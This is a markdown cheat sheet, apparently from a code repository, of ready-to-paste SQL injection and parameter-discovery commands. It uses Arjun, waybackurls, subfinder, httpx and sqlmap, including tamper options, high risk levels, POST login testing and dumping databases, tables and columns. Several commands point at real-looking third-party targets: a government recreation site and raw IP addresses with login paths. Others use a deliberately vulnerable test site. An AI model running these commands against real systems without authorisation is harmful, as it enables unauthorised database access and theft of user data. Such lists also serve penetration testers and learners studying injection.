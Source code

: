 
## Looking for Hidden parameters :-

- Arjun :- 

- arjun -u https://44.75.33.22wms/wms.login -w burp-parameter-names.txt




__________________________________________________________________________________________________

## Sql Injection :-


sqlmap -m s.txt --level 1 --random-agent --batch --dbs

sqlmap -m s.txt --level 1 --random-agent --batch --tamper="space2comment" --dbs



- echo https://www.recreation.gov | waybackurls | grep "\?" | uro | httpx -silent > param.txt

- cat subdomains.txt | waybackurls | grep "\?" | uro | httpx -silent > param.txt

- sqlmap -m param.txt --batch --random-agent --level 1 | tee sqlmap.txt


- sqlmap -u https://3.65.104.18/index.php --dbs --forms --crawl=2


- sqlmap -u "http://www.example.com/submit.php" --data="search=hello&value=submit"


## Test POST Requests for SQL Injection Vulnerabilities :-

sqlmap -u "https://3.65.104.18/index.php/index/loginpopupsave
" --data "username=2&password=3" -p "username,password" --method POST


sqlmap -r request.txt -p login --dbms="MySQL" --force-ssl --level 5 --risk 3 --dbs --hostname


## SQLi One Linear :-

- cat target.com | waybackurls | grep "\?" | uro | httpx -silent > urls;sqlmap -m urls --batch --random-agent --level 1 | tee sqlmap.txt


- subfinder -dL domains.txt | dnsx | waybackurls | uro | grep "\?" | head -20 | httpx -silent > urls;sqlmap -m urls --batch --random-agent --level 1 | tee sqlmap.txt


## Dump-Data :-

- sqlmap -u http://testphp.vulnweb.com/AJAX/infocateg.php?id=1 --dbs  (Databases)

- sqlmap -u http://testphp.vulnweb.com/AJAX/infocateg.php?id=1 --tables -D acuart (Dump DB tables )

- sqlmap -u http://testphp.vulnweb.com/AJAX/infocateg.php?id=1 --columns -T users (Dump Table Columns )
